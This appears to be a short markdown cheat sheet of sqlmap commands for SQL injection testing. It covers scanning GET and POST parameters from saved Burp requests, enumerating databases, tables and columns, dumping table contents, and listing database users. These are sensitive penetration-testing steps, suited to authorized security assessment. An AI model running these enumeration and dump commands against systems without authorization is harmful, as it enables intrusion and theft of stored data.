 ### source
https://github.com/sqlmapproject/sqlmap  

### scan GET parameter, -u URL, -p parameter
```
sqlmap -u http://<domain>/<path>.php?<var>=1 -p <var>
```

### scan POST parameter (save Burp Request to file), -r read file
```
sqlmap -r <file> -p <var>
```

### or mark *var* within burp request before pasting to file
```
sqlmap -r <file>
```

### once you found a SQL injection - get the database names
```
sqlmap -r <file> -p <var> --dbs
```

### get the tables of a database, -D database
```
sqlmap -r <file> -p <var> --tables -D <database>
```

### get the columns of a specific table, -T table
```
sqlmap -r <file> -p <var> --columns -D <database> -T <table>
```

### get the content of the columns
```
sqlmap -r <file> -p <var> --dump -D <database> -T <table>
```

### get database system users
```
sqlmap -r <file> -p <var> --users
```

### get current database system user
```
sqlmap -r <file> -p <var> --current-user
```

